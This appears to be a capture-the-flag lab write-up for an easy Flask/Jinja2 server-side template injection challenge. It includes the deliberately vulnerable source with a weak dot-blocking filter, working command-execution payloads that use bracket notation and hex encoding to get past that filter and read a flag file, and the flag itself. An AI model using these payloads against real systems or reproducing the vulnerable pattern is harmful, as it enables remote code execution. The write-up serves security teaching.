 # SSTI-Easy 1

### Difficulty: Easy

### Objective: Bypass blacklisted (".")

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>

The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` and get our flag!

![image](https://github.com/user-attachments/assets/579ab938-dac5-4d4a-8aed-3edd8ad37819)

Wait but the website prevented us from using the payload.

![image](https://github.com/user-attachments/assets/01fb2f5e-312b-48a1-b6b6-ffc1ceec65d7)

That's weird, it supposed to work. Let's inspect and analyze the provided source code.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string
import re

app=Flask(__name__)

@app.route('/', methods=('GET','POST'))
def index():
	if request.method=='POST':
		note=request.form['note']
		if sanitize(note):
			return render_template_string(note)
		else:
			return('Please provide some text')
	return '''
		<form method="POST">
			Note:<input type="text" name="note">
			<input type="submit" value="Submit">
		</form>
	'''

def sanitize(x):
	if "." in x:
		return False
	return True

if __name__=='__main__':
	app.run(host='0.0.0.0',port= 5000,debug=True)

```

The website is confirmed to be vulnerable to SSTI (Jinja 2) as the source code contains the function `render_template_string`. However, there is a function that seems to be preventing us from reaching the vulnerable function which is the `sanitize()`. It will return boolean `False` when it detected the strings contains "." which can prevent a regular SSTI payload. We can use another SSTI payload to bypass this sanitization by replacing "." with square brackets.

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}`

![image](https://github.com/user-attachments/assets/531cce88-b3fe-46fb-8f07-1e2c3d123338)

Let's submit this payload and see what happens.

![image](https://github.com/user-attachments/assets/d3cbfda0-eee2-4e8c-bc99-04ec01dc5b8c)

And it works! We can view all the files contain inside the server directory. Let's try to view the flag using command:

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag-923a4ee403778170c879557425f22848.txt')['read']()}}`

![image](https://github.com/user-attachments/assets/c43644b2-a538-469d-89e3-7b2290c0d623)

Wait but the website still denying us? But why? It seems like the filename `flag-923a4ee403778170c879557425f22848.txt` has a "." in the extension which preventing us from performing the exploit.
Luckily, we can bypass this by simply encode the filename into hex like this:

`\x66\x6c\x61\x67\x2d\x39\x32\x33\x61\x34\x65\x65\x34\x30\x33\x37\x37\x38\x31\x37\x30\x63\x38\x37\x39\x35\x35\x37\x34\x32\x35\x66\x32\x32\x38\x34\x38\x2e\x74\x78\x74`

Let's use it on our previous payload and it should be able to bypass the sanitization.

```{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat \x66\x6c\x61\x67\x2d\x39\x32\x33\x61\x34\x65\x65\x34\x30\x33\x37\x37\x38\x31\x37\x30\x63\x38\x37\x39\x35\x35\x37\x34\x32\x35\x66\x32\x32\x38\x34\x38\x2e\x74\x78\x74')['read']()}}```

At last, we finally able to obtain the flag!

![image](https://github.com/user-attachments/assets/7ccbea20-685f-40e4-b6a5-920619b8c222)

## Flag
>flag{c2ea5e9e00acde74027b2ad8cf5583bd}

</details>
